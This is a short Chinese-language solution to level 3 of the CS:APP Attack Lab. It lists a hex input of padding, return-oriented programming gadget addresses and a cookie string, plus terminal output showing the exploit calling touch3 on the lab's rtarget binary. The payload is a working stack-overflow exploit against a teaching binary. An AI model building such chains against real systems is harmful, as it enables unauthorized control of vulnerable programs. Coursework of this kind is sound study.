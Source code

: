 根据上图的栈帧，写出输入序列：

```c{.line-numbers}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
50 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
00 00 00 00 00 00 00 00
35 39 62 39 39 37 66 61
```

运行得到的结果如下，成功调用 touch3 函数，并且传入 cookie 字符串地址作为参数：

```c{.line-numbers}
monica@xvm:~/csapp/csapplab/attacklab/target1$ cat rtarget02.txt | ./hex2raw | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 50 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 00 00 00 00 00 00 00 00 35 39 62 39 39 37 66 61 
```